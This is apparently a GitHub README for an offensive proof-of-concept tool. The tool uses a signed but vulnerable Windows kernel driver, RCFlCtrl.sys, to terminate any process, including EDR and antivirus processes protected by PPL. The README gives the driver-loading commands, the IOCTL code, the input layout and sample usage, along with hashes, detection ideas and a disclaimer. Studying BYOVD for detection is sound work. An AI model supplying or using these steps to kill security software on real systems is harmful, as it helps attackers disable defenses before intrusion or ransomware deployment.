

# ProcessKiller - BYOVD Process Termination via RCFlCtrl.sys

Educational Proof of Concept built to test and validate the process termination vulnerability in the **RCFlCtrl.sys** kernel driver using the **Bring Your Own Vulnerable Driver (BYOVD)** technique.

The driver exposes an IOCTL that allows any user-mode process with administrator privileges to terminate arbitrary processes from kernel mode, bypassing protections commonly enforced by EDR and AV solutions. This PoC was developed by the offensive security team to reproduce the vulnerability, understand its impact, and help blue teams build detection and prevention strategies against BYOVD attacks.

## Demo



## How it works

The attack leverages **RCFlCtrl.sys** (RedCastle Control Driver), a legitimately signed Windows kernel driver that contains a vulnerability in its IOCTL handler. The driver exposes IOCTL `0x85000158`, which accepts a PID and calls `ZwTerminateProcess` directly from kernel mode (ring 0).

Because the termination happens through `Zw*` NT syscalls inside the kernel, it completely bypasses:

- **Protected Process Light (PPL)** - Windows process protection mechanism
- **EDR/AV self-protection** - tamper protection that blocks user-mode termination attempts
- **ACL-based access control** - security descriptors on process objects
- **User-mode API hooks** - any EDR hooks on `NtOpenProcess` / `NtTerminateProcess`

In practice, this means a process that cannot be killed with `taskkill`, Task Manager, or `TerminateProcess` from user mode can be instantly terminated through this driver.

```
User Mode                          Kernel Mode
+-----------+    IOCTL 0x85000158   +----------------+
| Process   | ------------------->  | RCFlCtrl.sys   |
| Killer    |    PID (8 bytes)      |                |
+-----------+                       | ZwOpenProcess  |
      |                             | ZwTerminate    |
      |                             | ZwClose        |
      v                             +----------------+
 [+] Killed PID 1234
```

## Files

| File | Description |
|------|-------------|
| `main.c` | User-mode client that talks to the driver via IOCTL |
| `RCFlCtrl.sys` | Signed vulnerable driver |

## Usage

Load the driver (admin):

```
sc.exe create RCFlCtrl binPath=C:\windows\temp\RCFlCtrl.sys type=kernel && sc.exe start RCFlCtrl
```

Run:

```
ProcessKiller.exe <PID>
```

Example:

```
C:\> tasklist | findstr Notepad
Notepad.exe                   7328 Console                    1     98.188 K

C:\> ProcessKiller.exe 7328
================================
   RCFlCtrl - PoC Client
================================
[+] Target PID: 7328
[+] Driver handle opened
[+] Killed PID 7328
```

Unload:

```
sc.exe stop RCFlCtrl && sc.exe delete RCFlCtrl
```

## Technical details

### IOCTL

| Field | Value |
|-------|-------|
| Code | `0x85000158` |
| Method | `METHOD_BUFFERED` |
| Access | `FILE_ANY_ACCESS` |
| Input | `ULONG64` (PID, 8 bytes) |

### What the driver does internally

1. Validates PID is non-zero
2. `ZwOpenProcess` with `PROCESS_TERMINATE` (0x1)
3. `ZwTerminateProcess` with exit code 1
4. `ZwClose` on the handle

`Zw*` calls in kernel mode bypass all user-mode security checks (PPL, ACLs, EDR/AV self-protection).

### Driver hashes

| Hash | Value |
|------|-------|
| MD5 | `e53dd75097a7afbb9bdf68713d47df01` |
| SHA1 | `8f0cb2d25448e326f4dcdb0d452b968938383d49` |
| SHA256 | `04bdcd0c70fb07e1c551be3078cf0e82cf53dd4dba3752b74e5db4a715933d16` |
| Imphash | `e6952bf01526fcb4c51de27a2dd72f93` |

## Detection and protection

- **WDAC / HVCI** - block known vulnerable drivers via Microsoft driver blocklist
- **Sysmon Event ID 6** - monitor driver loads, alert on known hashes
- **ETW** - trace `ZwTerminateProcess` calls targeting security processes
- **sc.exe** - alert on `sc.exe create` with `type=kernel` loading non-standard drivers
- **DeviceIoControl** - monitor calls to uncommon device names (`\\.\RCFlCtrl`)
- **LOLDrivers blocklist** - import hash list into SIEM/EDR to block known BYOVD drivers

## MITRE ATT&CK

| Tactic | Technique | ID |
|--------|-----------|-----|
| Defense Evasion | Signed Driver Abuse | T1068 |
| Defense Evasion | Disable or Modify Tools | T1562.001 |

## References

- [RCFlCtrl.sys - LOLDrivers](https://loldrivers.sanandaje.com/drivers/a7d2a088-b00b-4f5c-96ca-7a98070dddd5/)
- [LOLDrivers - Living Off The Land Drivers](https://www.loldrivers.io/)
- [Microsoft Recommended Driver Block Rules](https://learn.microsoft.com/en-us/windows/security/application-security/application-control/app-control-for-business/design/microsoft-recommended-driver-block-rules)
- [Monzani, Netti, Parata - DOI 10.1016/j.cose.2026.105194](https://doi.org/10.1016/j.cose.2026.105194)

## Disclaimer

This project is provided strictly for **educational purposes and authorized security testing**. It is intended to help security professionals understand the BYOVD attack technique and build effective detection and prevention strategies.

Do not use this tool against systems you do not own or do not have explicit written authorization to test. Unauthorized use may violate local, state, and federal laws. The author assumes no liability for misuse of this software.

**Use responsibly. Test only in isolated lab environments.**
